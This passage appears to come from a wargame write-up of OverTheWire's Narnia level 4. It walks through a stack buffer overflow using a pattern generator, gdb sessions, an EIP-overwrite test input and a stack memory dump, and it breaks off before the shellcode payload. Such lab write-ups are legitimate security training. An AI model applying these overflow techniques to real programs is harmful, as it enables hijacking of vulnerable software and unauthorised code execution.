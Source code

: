 MOAR OVERFLOWS. This time you'll notice something at line 6. What this does is [store the user environment](https://man7.org/linux/man-pages/man7/environ.7.html). This then get zerod out inside `main` to prevent us from storing any shellcode in environment variables. However we might still be able to write `EIP`, so using the trusty pattern generator from before

```sourceCode
local $] ./pattern.py 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

```sourceCode
narnia4@melinda:/narnia$ gdb -q ./narnia4
Reading symbols from ./narnia4...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /games/narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4
Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
0x316a4130 in ?? ()
```

```sourceCode
local $] ./pattern.py 0x316a4130
Pattern 0x316a4130 first occurrence at position 272 in pattern.
```

This tells us we have 272 bytes to play with. Plenty of space to construct a nopsled and shellcode payload. Let's find out what we need to write into `EIP`.

```sourceCode
(gdb) r $(python -c "print 'a'*272 + 'bbbb'")
Starting program: /games/narnia/narnia4 $(python -c "print 'a'*272 + 'bbbb'")

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) x/200x $esp
0xffffd5c0: 0x00000000  0xffffd654  0xffffd660  0xf7feacea
0xffffd5d0: 0x00000002  0xffffd654  0xffffd5f4  0x080497cc
0xffffd5e0: 0x0804825c  0xf7fca000  0x00000000  0x00000000
0xffffd5f0: 0x00000000  0x7cc8a421  0x44f76031  0x00000000
0xffffd600: 0x00000000  0x00000000  0x00000002  0x080483b0
0xffffd610: 0x00000000  0xf7ff0500  0xf7e3c979  0xf7ffd000
0xffffd620: 0x00000002  0x080483b0  0x00000000  0x080483d1
0xffffd630: 0x080484ad  0x00000002  0xffffd654  0x08048550
0xffffd640: 0x080485c0  0xf7feb180  0xffffd64c  0x0000001c
0xffffd650: 0x00000002  0xffffd78f  0xffffd7a5  0x00000000
0xffffd660: 0xffffd8ba  0xffffd8ce  0xffffd8de  0xffffd8f1
0xffffd670: 0xffffd914  0xffffd927  0xffffd930  0xffffd93d
0xffffd680: 0xffffde5e  0xffffde69  0xffffde75  0xffffded3
0xffffd690: 0xffffdeea  0xffffdef9  0xffffdf05  0xffffdf16
0xffffd6a0: 0xffffdf1f  0xffffdf32  0xffffdf3a  0xffffdf4a
0xffffd6b0: 0xffffdf80  0xffffdfa0  0xffffdfc0  0x00000000
0xffffd6c0: 0x00000020  0xf7fdbb60  0x00000021  0xf7fdb000
0xffffd6d0: 0x00000010  0x1f898b75  0x00000006  0x00001000
0xffffd6e0: 0x00000011  0x00000064  0x00000003  0x08048034
0xffffd6f0: 0x00000004  0x00000020  0x00000005  0x00000008
0xffffd700: 0x00000007  0xf7fdc000  0x00000008  0x00000000
0xffffd710: 0x00000009  0x080483b0  0x0000000b  0x000036b4
0xffffd720: 0x0000000c  0x000036b4  0x0000000d  0x000036b4
```